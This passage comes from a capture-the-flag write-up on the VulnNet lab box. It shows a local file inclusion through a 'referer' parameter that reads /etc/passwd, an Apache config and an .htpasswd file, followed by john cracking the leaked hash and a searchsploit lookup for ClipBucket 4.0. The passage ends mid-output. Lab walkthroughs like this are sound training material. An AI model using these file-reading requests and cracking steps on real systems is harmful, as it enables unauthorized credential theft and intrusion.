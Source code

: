 sshd:x:113:65534::/run/sshd:/usr/sbin/nologin</code></pre><blockquote id="bbda4def-a20f-4744-8c19-23910e06c913" class=""><strong><mark class="highlight-red_background">/etc/passwd</mark></strong><strong> is a text file in </strong><strong><mark class="highlight-red_background">Linux</mark></strong><strong> that stores information about the users on the system, such as their </strong><strong><mark class="highlight-red_background">login</mark></strong><strong>, user </strong><strong><mark class="highlight-red_background">ID</mark></strong><strong> number, </strong><mark class="highlight-red_background"><strong>directory</strong></mark><strong>.</strong></blockquote></details></li></ul></div></p><ul id="cfe5d5b8-b7f0-4985-8b8d-79e63af31754" class="bulleted-list"><li style="list-style-type:disc"><code>view-source:</code><code><a href="http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf">http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf</a></code> on this URL we found some cool informations😈<pre id="2da5f233-439f-4263-9c44-b6cf9a482be8" class="code"><code>&lt;VirtualHost *:80&gt;
	ServerAdmin webmaster@localhost
	ServerName vulnnet.thm
	DocumentRoot /var/www/main
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	&lt;Directory /var/www/main&gt;
		Order allow,deny
		allow from all
	&lt;/Directory&gt;
&lt;/VirtualHost&gt;

&lt;VirtualHost *:80&gt;
	ServerAdmin webmaster@localhost
	ServerName broadcast.vulnnet.thm
	DocumentRoot /var/www/html
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	&lt;Directory /var/www/html&gt;
		Order allow,deny
		allow from all
		AuthType Basic
		AuthName &quot;Restricted Content&quot;
		AuthUserFile /etc/apache2/.htpasswd
		Require valid-user
	&lt;/Directory&gt;
&lt;/VirtualHost&gt;</code></pre></li></ul><ul id="f75d1dd8-a5f0-48dc-bb5e-839797d7817b" class="bulleted-list"><li style="list-style-type:disc"><strong><code>view-source:</code></strong><strong><code><a href="http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd">http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd</a></code></strong><strong> on this URL we found usernma with hashed password ⇒ </strong><strong><code>developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0</code></strong></li></ul><ul id="b93a7021-7dff-491b-aada-8411f8c0db2b" class="bulleted-list"><li style="list-style-type:disc"><strong>so let’s crack using </strong><strong><code>john</code></strong><pre id="787386f1-f806-4009-b5a3-99b5d8154db8" class="code"><code>┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ echo &quot;developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0&quot; &gt; hash.txt

┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ john --wordlist=/home/nazu/Desktop/Word-List/rockyou.txt hash.txt
pass =&gt; 9972761drmfsls
user =&gt; developers</code></pre><p id="71af19dd-12e0-4549-9547-52b04c0a89bd" class=""><strong>it’s not ssh password and username. it used for brodcast subdomain</strong><div class="indented"><p id="b5c9fc97-b8dc-4509-8384-269402dcc54c" class=""><strong>boom we logged in. </strong></p><p id="a3479035-8c26-43d9-9fdb-454971a25876" class=""><strong>the first step is checking for source code.</strong></p><p id="cfd0aa7a-c2fa-4ff2-8854-f413dfab8269" class=""><strong>on line 190 we found this</strong> <code>&lt;!-- ClipBucket version 4.0 --&gt;</code><strong> there are so many exploits on this versiiion </strong><strong><a href="https://www.google.com/search?client=firefox-b-e&amp;q=clipbucket+version+4.0+exploit">here</a></strong><strong>’</strong></p><pre id="9bb68a36-feb9-4abe-b78b-751a517dbeea" class="code"><code>┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ searchsploit ClipBucket 4.0
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path